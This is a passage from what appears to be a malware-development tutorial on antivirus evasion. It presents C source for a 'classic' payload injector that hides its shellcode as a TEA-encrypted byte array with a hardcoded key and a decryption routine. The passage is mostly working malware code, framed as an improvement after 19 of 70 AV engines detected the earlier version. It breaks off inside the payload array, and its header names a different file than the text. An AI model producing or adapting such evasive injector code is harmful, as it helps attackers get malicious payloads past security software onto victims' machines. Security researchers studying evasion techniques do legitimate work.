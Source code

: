 **19 of of 70 AV engines detect our file as malicious as expected.**      

Ok, let's go to modify our "classic" injection:       

- replace our `meow-meow` payload with TEA encrypted payload     
- add `tea_decrypt` function     
- decrypt payload and inject      

And we will get this malware (`hack3.c`):      

```cpp
/*
 * hack2.cpp
 * classic payload injection example
 * with decrypt payload via TEA
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2023/02/20/malware-av-evasion-12.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#define KEY_SIZE 16
#define ROUNDS 32

void tea_decrypt(unsigned char *data, unsigned char *key) {
  unsigned int i;
  unsigned char x = 0;

  unsigned int delta = 0x9e3779b9;
  unsigned int sum = delta * ROUNDS;

  unsigned int v0 = *(unsigned int *)data;
  unsigned int v1 = *(unsigned int *)(data + 4);

  for (i = 0; i < ROUNDS; i++) {
    v1 -= (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + ((unsigned int *)key)[(sum >> 11) & 3]);
    sum -= delta;
    v0 -= (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + ((unsigned int *)key)[sum & 3]);
  }

  *(unsigned int *)data = v0;
  *(unsigned int *)(data + 4) = v1;
}

unsigned char key[] = "\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77";
unsigned char my_payload[] =
"\x6a\xf5\x79\xa8\x12\xca\x83\xce\xdc\x69\xa4\x59\x68\x54\xb8\xc7"
"\xd2\x63\x35\xc2\xcb\xe1\x24\xbb\xd5\x43\x36\x98\x37\x13\x91\xe0"
"\xc6\xe1\x01\x7a\x2a\xe1\xd8\x51\xfc\x73\x4f\x74\x1d\x33\x84\x5d"
"\xdd\x30\x13\xda\xd9\x86\xf4\x44\x84\x40\x40\xea\xc9\x10\x79\xb2"
"\xc1\x4b\x4b\x3f\xf3\x34\x20\x25\x75\x09\x64\x46\x91\xff\xa3\xea"
"\x49\x53\xaf\x87\x7b\x9b\xaa\x20\xfd\x42\x5e\xf7\xf4\xc8\x3d\x52"
"\xde\x19\x90\x67\x71\xb7\xa1\xbf\x17\xb1\xa8\xd0\x00\x31\x8d\x57"
"\x74\xcb\xf9\x8f\x02\xe8\x6d\x1b\x4d\xaf\x60\x3d\x3a\x01\x33\x87"
"\xf9\xc2\xf4\x93\xec\xdd\x89\x89\x80\x36\xc1\x2a\x73\xc7\x67\x04"
"\x7a\x82\x25\x62\xf1\xe1\x98\x01\x8a\x56\x4b\x87\x85\x89\xd0\xf4"
"\x00\x2a\xcd\xf6\xbf\x59\xeb\x0a\x7b\x86\xe6\xc8\x81\xfa\x2c\x5f"
"\x91\x2a\x13\x11\x31\xc4\xe0\x34\x6f\x20\xa0\x07\x65\x01\x82\x5b"
"\x88\x05\x2d\x19\x16\x48\x64\xc9\x21\x26\xda\xf0\xc1\xff\x10\x13"
"\x6d\x70\x66\xa4\x42\x1e\x4c\x4c\xd1\xc3\xe1\x2e\xd2\xc7\xac\x85"
"\xc8\xfc\x75\xaa\xff\x9f\xcb\x1c\x79\x8d\x8f\xd3\x2d\x8b\x4d\x9d"
"\x59\x60\xf2\xf9\x0b\x32\xa8\x94\xb4\x1e\x2b\x9c\xcd\x31\x97\x94"
"\x67\x17\xfd\xd9\xcf\x38\xb0\x82\x27\x34\x72\x4f\xa6\x4b\x6b\x96"
"\x54\x66\x00\xcf\x1e\x49\x1c\x5e\x60\xea\xfa\x26\x60\x97\xe7\xf9"
```